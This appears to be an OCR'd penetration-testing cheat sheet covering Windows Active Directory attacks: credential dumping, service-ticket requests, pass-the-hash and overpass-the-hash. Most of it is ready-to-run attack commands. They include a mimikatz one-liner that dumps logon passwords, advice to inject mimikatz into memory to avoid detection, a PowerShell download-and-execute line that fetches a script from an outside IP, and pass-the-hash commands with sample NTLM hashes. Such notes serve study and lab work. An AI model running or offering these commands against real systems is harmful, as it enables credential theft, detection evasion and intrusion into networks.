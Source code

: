 Or as one liner in cmd

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```


```powershell
# never use mimikatz as a standalone tool as it shall get detected
# instead inject it into memmory using this module from ps mafia

https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

```

### Request Service Ticket

If name of particular service is know, ticket can be requested for later attempting to crack its hash.

```powershell 

iex(New-Object Net.WebClient).DownloadString('http://192.168.119.181/Request_ST.ps1')

#list all user tickets

klist

```

* after this the service can be accessed 

### Pass the Hash

If hash is obtained from the memmory of compromised host, use it with pth-winexe kali tool

```bash

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

### Overpass the Hash

This attack uses NTLM hash to obtain a TGT to gain further access

```bash
#use mimikatz to obtain powershell session as admin if NTLM hash is available

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

```

* sometimes it is needed to authenticate with current session to obtain TGT

`net use \\dc01`
